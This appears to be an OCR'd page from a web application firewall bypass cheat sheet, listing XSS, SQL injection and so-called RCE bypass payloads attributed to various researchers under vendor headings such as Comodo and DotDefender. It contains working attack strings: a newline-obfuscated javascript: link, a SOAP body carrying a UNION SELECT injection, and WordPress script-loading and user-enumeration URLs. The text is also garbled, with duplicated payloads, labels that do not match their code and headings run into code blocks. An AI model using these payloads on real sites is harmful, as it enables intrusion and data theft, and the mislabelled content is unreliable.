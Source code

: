 XSS Bypass by @ArbazKiraak

```
<a href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At:open()>clickhereBarracuda WAF 8.0.1 - Remote Command Execution (Metasploit) by @xort
```

XSS Bypass by @Ahmet Ümit

```
<a href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At:open()>clickhere
```

XSS Bypass by @Shiva Krishna

```
POST host.com HTTP/1.1Host: favoritewaf.comUser-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)author=1
```

XSS Bypass by @Brute Logic

```
POST host.com HTTP/1.1Host: favoritewaf.comUser-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)author=1
```

XSS Bypass by @RenwaX23 (Chrome only)

```
http://host/wp-admin///load-scripts.php?load%5B%5D=jquery-core,jquery-migrate,utilshttp://host/wp-admin///load-styles.php?load%5B%5D=dashicons,admin-bar
```

RCE Payload Detection Bypass by @theMiddle

```
http://host/index.php/wp-json/wp/v2/users/
```

### **Comodo**

XSS Bypass by @0xInfection

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">   <soapenv:Header/>   <soapenv:Body>        <string>’ union select current_user, 2#</string>    </soapenv:Body></soapenv:Envelope>generic_api_call.pl XSS by @NNPoster
```

SQLi by @WAFNinja

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">   <soapenv:Header/>   <soapenv:Body>        <string>’ union select current_user, 2#</string>    </soapenv:Body></soapenv:Envelope>
```

### DotDefender

Firewall disable by (v5.0) by @hyp3rlinx
